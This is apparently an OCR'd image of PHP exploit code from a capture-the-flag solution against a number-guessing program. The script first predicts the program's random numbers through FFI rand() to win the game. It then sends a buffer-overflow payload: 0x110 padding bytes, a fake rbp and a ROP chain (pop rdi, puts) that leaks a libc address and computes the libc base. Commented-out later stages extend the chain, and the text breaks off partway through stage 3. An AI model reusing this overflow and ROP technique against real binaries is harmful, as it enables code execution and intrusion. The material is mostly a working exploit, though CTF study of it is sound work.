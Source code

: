 ```php

$t->expectLine("Can you guess my numbers?");
$t->expect("> ");

for($i = 0; $i < 50; $i++) {
	$guess = $ffi->rand();
	$t->write("$guess\n");
}

for($i = 0; $i < 50; $i++) {
	$t->expectLine("You were lucky this time!");
	$t->expect(">");
}

$t->write("-1\n");
$t->expectLine("Game over!");
$t->expectLine("New Highscore! Amazing!");

/* Leak */

$payload  = str_repeat("x", 0x110);
$payload .= pack("Q", 0xdeadbeef); // rbp
$payload .= pack("Q*",
	POPRDI, 0x00403fe8,
	PUTS,
	0x00401336, // stage 2
); // rip

$t->expect("Give me your name: ");
$t->write($payload);

$leak = $t->readLine();
$leak = str_pad(substr($leak, 0, 8), 8, "\x00");
$addr = unpack("Q", $leak)[1];

$libc  = $addr & ~0xFFF;
$libc -= 0x23000;

// vvv leak vvv
// /* stage 2 */
//
// $payload  = str_repeat("x", 0x110);
// $payload .= pack("Q", 0xdeadbeef); // rbp
// $payload .= pack("Q*",
// 	POPRDI, $libc + 0x18,
// 	PUTS,
// 	0x00401336, // stage 2
// ); // rip
//
// $t->expect("Give me your name: ");
// $t->write($payload);
//
// $leak = $t->readLine();
// $leak = str_pad(substr($leak, 0, 8), 8, "\x00");
// $entry = unpack("Q", $leak)[1];
// printf("Entry : %X\n", $entry);
//
// /* stage 3 */
//
// $payload  = str_repeat("x", 0x110);
// $payload .= pack("Q", 0xdeadbeef); // rbp
// $payload .= pack("Q*",
// 	$libc + $entry,
```